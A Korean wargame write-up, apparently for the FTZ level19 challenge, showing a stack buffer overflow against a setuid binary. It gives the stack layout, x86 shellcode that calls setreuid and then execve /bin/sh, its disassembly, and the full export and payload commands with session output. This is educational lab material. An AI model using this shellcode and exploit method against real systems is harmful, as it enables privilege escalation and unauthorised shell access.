 ```
0x42015591 <__libc_start_main+257>:	call   0x420d0320 <__exit_thread>
```

위와 같이 유추할 수 있다. 그렇다면 아래와 같은 스택 구조로 볼 수 있다.

```
20bytes		|	20bytes    |    4bytes    |    4bytes
buf[20]			 dummy			SFP			  RET
```

그럼 44바이트만큼 더미 값으로 덮어 씌우고, 4바이트를 쉘 코드의 주소로 바꿔주면 된다.

일반적인 bof 공격을 시도하면 다음과 같은 결과가 나온다.

```
[level19@ftz level19]$ export EGG=`python -c 'print "\x90"*20+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`
[level19@ftz level19]$ tmp/a.out 
addr->0xbffffc58
[level19@ftz level19]$ (python -c 'print "A"*44+"\x58\xfc\xff\xbf"'; cat) | ./attackme
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAX?
id
uid=3099(level19) gid=3099(level19) groups=3099(level19)
```

이유는 `setreuid`와 같은 함수가 존재하지 않기 때문이다. 실제 공격하기 위해선 다음과 같은 쉘 코드가 필요하다.

```
"\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"
```

```
0:  31 c0                   xor    eax,eax
2:  b0 31                   mov    al,0x31
4:  cd 80                   int    0x80
6:  89 c3                   mov    ebx,eax
8:  89 c1                   mov    ecx,eax
a:  31 c0                   xor    eax,eax
c:  b0 46                   mov    al,0x46
e:  cd 80                   int    0x80
10: 31 c0                   xor    eax,eax
12: 50                      push   eax
13: 68 2f 2f 73 68          push   0x68732f2f
18: 68 2f 62 69 6e          push   0x6e69622f
1d: 89 e3                   mov    ebx,esp
1f: 50                      push   eax
20: 53                      push   ebx
21: 89 e1                   mov    ecx,esp
23: 31 d2                   xor    edx,edx
25: b0 0b                   mov    al,0xb
27: cd 80                   int    0x80
```

자 그럼 다시 쉘 코드를 환경변수에 올리고 실행해본다.

```
[level19@ftz level19]$ export EGG=`python -c 'print "\x90"*20+"\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`
[level19@ftz level19]$ tmp/a.out 
addr->0xbffffc48
[level19@ftz level19]$ cd tmp
[level19@ftz tmp]$ ./a.out 
addr->0xbffffc48
[level19@ftz tmp]$ cd ..
[level19@ftz level19]$ (python -c 'print "A"*44+"\x48\xfc\xff\xbf"'; cat) | ./attackme
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAH?
id
```